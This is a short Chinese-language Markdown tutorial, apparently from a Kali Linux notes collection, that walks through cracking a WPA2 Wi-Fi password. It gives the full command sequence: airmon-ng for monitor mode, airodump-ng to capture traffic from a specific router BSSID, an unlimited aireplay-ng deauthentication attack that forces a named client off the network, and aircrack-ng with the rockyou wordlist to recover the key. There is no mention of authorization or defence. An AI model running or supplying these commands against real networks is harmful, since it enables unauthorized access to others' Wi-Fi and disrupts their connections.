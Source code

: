 总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/2-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/2-2.png)

# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 1 -w wpa2 
```
 - c指定频道号
 - bssid指定路由器bssid
 - w指定抓取的数据包保存位置

![](image/2-3.png)

 > 2、发起攻击（新开一个窗口，监听与获取那个窗口不用关闭）

`注意：这部需要有连接WiFi的设备，才能进行`
 ```shell
 aireplay-ng -0 0 -a 78:02:F8:27:F8:BB -c 30:B4:9E:D7:DA:71 wlan0mon
 ```

- 0表示发起deauthentication攻击， 0为无限
- a指定无线路由器BSSID
- c指定强制断开的设备

`假设没有设备连接该wifi，就用其他设备连接一次，不论是否连上，只要连接断开一次就可以获取包`


- 成功标志

!(image/2-4.png)

# <a name="kail-linux-01" href="#" >破解</a>

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap

```
